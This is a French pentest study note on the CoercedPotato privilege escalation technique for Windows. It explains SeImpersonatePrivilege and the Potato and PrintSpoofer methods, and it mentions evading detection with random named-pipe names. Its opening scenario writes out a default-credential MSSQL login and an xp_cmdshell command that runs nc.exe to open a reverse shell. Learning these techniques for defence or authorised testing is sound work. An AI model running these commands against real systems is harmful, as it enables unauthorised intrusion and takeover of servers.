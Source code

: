 # CoercedPotato

## Exemple de point de départ

* Compromission d'une base de données MSSQL sur un serveur Windows

```bash
impacket-mssqlclient sa:sa@$TARGET
select @@version;
Microsoft SQL Server 2019
```

* Exécution d'un reverse shell

```
EXEC master..xp_cmdshell 'C:\tmp\nc.exe $TARGET 8888 -e cmd.exe';
nc -lvnp 8888
C:\Windows\system32> whoami
nt service\mssqlserver
```

## Pistes pour l'élévation de privilèges

* Versions des composants et de l'OS
* Identifiants stockés
* Tâches planifiées
* **Privilèges dangereux**
* ...

## Enumérer ses privilèges&#x20;

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```

\-> SeImpersonatePrivilege = droit qui permet d'exécuter des processus au nom d'un autre utilisateur si cet utilisateur se connecte (légitime dans le cas d'un serveur web , d'une base de données, etc.)

## Principe des privesc de la famille "Potato"

* Forcer une authentification du compte SYSTEM sur un proxy local
* Cette tentative va créer un processus dans le contexte de sécurité du compte SYSTEM
* Exemples : JuicyPotato, PrintSpoofer

\
pipe = ensemble de processus connectés via IPC "Inter-Processus Communication" pour réaliser une tâche. Un pipe non nommé meurt en général avec le processus qui l'a créé.

named pipe = il s'agit d'un pipe persistent qui peut continuer de vivre après la mort du processus qui l'a initié. En général un named pipe est un fichier associé à de sous-processus (interconnectés via IPC).&#x20;

### PrintSpoofer

* Ouverture d'un named pipe
* Coercition d'authentification du compte SYSTEM sur le named pipe en utilisant le Print Spouler d'impression
* Execution d'une commande avec les droits du compte système

Si le Print Spouler est désactivé et par conséquent l'interface RPC MS-RPRN aussi , cette privesc ne fonctionnera pas.

### CoercedPotato

#### Génèse

Né du fait que PrintSpoofer ne fonctionne pas quand le Spouler d'impression est désactivé sur un serveur, ce qui est de + en + le cas.

Méthode de recherche : Etudier toutes les fonctions RPC connues pour faire de la coercition d'authentification (notamment celles utilisées par PetitPotam) pour pallier au fait que la fonction MS-RPRN soit désactivée quand le Print Spouler est désactivé.

#### Fonctionnement :&#x20;

* Ouverture d'un named pipe (utilisation d'un nom aléatoire pour bypass les détections)
* Appel de toutes les fonctions RPC connues pour être vulnerables avec en target le namedpipe ouvert en amont
  * MS-RPRN
  * Si MS-RPRN KO , Appel des fonctions MS-EFSR
* On peut lancer un cmd.exe dans le contexte de l'utilisateur qui s'est connecté (ici SYSTEM)

\-> Il y a également une version qui permet de faire l'élévation de privilèges (les actions sont scindées entre plusieurs processus => détection plus complexe)\


<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>



{% embed url="https://www.sstic.org/2024/presentation/les_patates_et_windows_une_histoire_damour_et_de_privesc/" %}

{% embed url="https://blog.hackvens.fr/articles/CoercedPotato.html" %}

##
